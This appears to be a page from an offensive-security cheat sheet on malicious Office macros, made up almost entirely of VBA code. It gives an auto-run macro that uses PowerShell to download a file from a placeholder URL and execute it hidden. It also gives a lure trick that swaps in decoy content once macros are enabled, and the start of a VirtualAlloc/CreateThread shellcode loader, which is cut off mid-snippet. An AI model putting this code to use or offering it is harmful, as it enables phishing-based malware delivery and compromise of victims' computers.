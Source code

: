 # Office

### Download File & Execute via Macro

```aspnet
Sub Document_Open()
  DocMacro
End Sub

Sub AutoOpen()
  DocMacro
End Sub

Sub DocMacro()
  Dim str As String
  str = "powershell (New-Object System.Net.WebClient).DownloadFile('url','filename')"
  Shell str, vbHide
  Dim path As String
  path = ActiveDocument.Path + "\filename"
  Wait (3)
  Shell path , vbHide
End Sub

Sub Wait(n As Long)
  Dim t As Date
  t = Now
  Do
    DoEvents
  Loop Until Now >= DateAdd("s", n, t)
```

### Switches text after enabling macros

Save the "after enabling macros" text as a template and use the following function to replace the current contents with the saved ones \(e.g. fake an encrypted documented\):  

```text
Sub SubPage()
  ActiveDocument.Content.Select
  Selection.Delete
  ActiveDocument.AttachedTemplate.AutoTextEntries("Saved").InsertWhere:=Selection.Range, RichText:=True
End Sub
```

### Run Shellcode From Macro via VBA

```text
Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function DocMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    buf = Array(232, 130, 255, 213)
    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
```